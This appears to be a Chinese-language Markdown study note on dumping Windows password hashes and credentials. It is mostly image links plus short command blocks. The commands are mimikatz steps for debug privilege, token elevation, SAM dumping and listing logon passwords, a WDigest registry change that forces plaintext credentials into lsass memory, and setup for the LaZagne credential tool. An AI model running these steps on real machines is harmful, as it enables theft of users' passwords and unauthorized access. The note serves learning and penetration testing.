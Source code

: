 ## 简介

![image-20240414155214527](WinodwsHash.assets/image-20240414155214527.png)

![image-20240414195950493](WinodwsHash.assets/image-20240414195950493.png)

```bash
log res.txt //将日志信息写入该文件
privilege::debug //修改自己进程的权限提权，windows2012以上禁止明文存储在lsass.exe内存中，因此不能直接获取明文密码
###但是可以利用修改Wdigest注册表要求明文存储在lsass.exe内存中
##开启
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
##关闭
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
###

token::elevate //利用其它进程的权限给自己提权
lsadump::sam  //列出sam
sekurlsa::logonpasswords //列出当前系统中已经登录的（或以前登录过且相关信息还存储在内存中）所有用户的密码及其明文
```

![image-20240414215719402](WinodwsHash.assets/image-20240414215719402.png)

![image-20240417164439095](WinodwsHash.assets/image-20240417164439095.png)

![image-20240417164603141](WinodwsHash.assets/image-20240417164603141.png)

![image-20240417164709889](WinodwsHash.assets/image-20240417164709889.png)

![image-20240417164716542](WinodwsHash.assets/image-20240417164716542.png)

![image-20240417165219994](WinodwsHash.assets/image-20240417165219994.png)

![image-20240417201220005](WinodwsHash.assets/image-20240417201220005.png)

![image-20240417202949251](WinodwsHash.assets/image-20240417202949251.png)

![image-20240417205905635](WinodwsHash.assets/image-20240417205905635.png)

LaZagne需要有python3的环境，并且需要安装其依赖。

```bash
pip install -r requirements.txt
python3 ./LaZagne   //运行该命令会显示可用的options
```

